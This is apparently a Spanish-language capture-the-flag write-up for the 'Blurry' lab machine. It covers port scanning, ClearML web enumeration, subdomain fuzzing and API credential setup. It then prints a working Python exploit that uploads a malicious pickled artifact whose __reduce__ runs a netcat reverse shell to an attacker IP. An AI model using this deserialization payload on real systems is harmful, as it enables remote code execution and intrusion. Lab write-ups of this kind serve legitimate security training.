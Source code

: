#medium #tecnicas #windows #fuzzing 
### Ping
```python
ping -c 1 10.10.11.19
PING 10.10.11.19 (10.10.11.19) 56(84) bytes of data.
64 bytes from 10.10.11.19: icmp_seq=1 ttl=63 time=152 ms

--- 10.10.11.19 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 152.472/152.472/152.472/0.000 ms
```

### TTL 63 = Linux

### nmap
```python
# Nmap 7.94SVN scan initiated Sun Jun  9 12:19:54 2024 as: nmap -p- --open -sC -sV --min-rate 3000 -n -Pn -oN Scan 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up (0.15s latency).
Not shown: 65477 closed tcp ports (reset), 56 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  9 12:20:32 2024 -- 1 IP address (1 host up) scanned in 38.23 seconds
```

### Enumeración del puerto 80 (http)

tenemos una web que nos permite iniciar sesión con un usuario aleatorio. en este caso usamos admin
![[Pasted image 20240609155324.png]]

`admin`
después de iniciar sesión podemos identificar un proceso que se esta ejecutando
![[Pasted image 20240609155509.png]]

`experiments`
después de hacer clic en el proceso podemos ver el file path de un archivo en la web. se encuentra en otro subdominio así que vamos a enumerar
![[Pasted image 20240609155706.png]]

### Fuzzing con wfuzz

enumerando subdominios podemos encontrar efectivamente el subdominio donde se encuentra el archivo que hemos visto anteriormente y tenemos uno mas llamado `chat` 
![[Pasted image 20240609155815.png]]

### Api
podemos obtener las credenciales de una api lo cual es bueno.
![[Pasted image 20240611122420.png]]

### clearml-ini
al abrir `clearml-ini` vamos a ingresar las credenciales de la api que creamos esto nos creara un archivo `clearml.config` en el home 
![[Pasted image 20240611125038.png]]

### exploit
en esta web nos muestra un ejemplo de como aprovechar la vulnerabilidad para subir un archivo y poder tener ejecución de comandos usaremos este ejemplo para crear nuestro propio exploit para poder cargar un archivo a la maquina llamado `ddd-task` con la reverse shell 
![[Pasted image 20240611125301.png]]

### upload_pwned.py
```python
```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.40 9001 >/tmp/f"
        return (os.system, (cmd,))

command = RunCommand()

task = Task.init(project_name="Black Swan",
                 task_name="ddd-task",
                 tags=["review"],
                 task_type=Task.TaskTypes.data_processing,
                 output_uri=True)

task.upload_artifact(name="ddd_artifact",
                     artifact_object=command,
                     retries=2,
                     wait_on_upload=True)

task.execute_remotely(queue_name='default')
```

### shell
ahora solo debemos ejecutar el exploit y estaremos a la escucha para obtener la reverse shell. se subirá una nueva tarea al proyecto y luego de eso debemos esperar que se complete. 
`Nota# si no obtenemos la shell podemos usar ```clearml-agent execute --id``` pasandole el id de nuestra tarea para que se ejecute. y luego solo debemos esperar un rato para que este proceso se complete` 
![[Pasted image 20240611125901.png]]

### Escalada De privilegios

![[Pasted image 20240611154335.png]]

tenemos permisos sobre el binario `/usr/bin/evaluate_model /models/*.pth` así que podemos usarlo para explotar una escalada de privilegios
![[Pasted image 20240611141132.png]]


![[Pasted image 20240611152721.png]]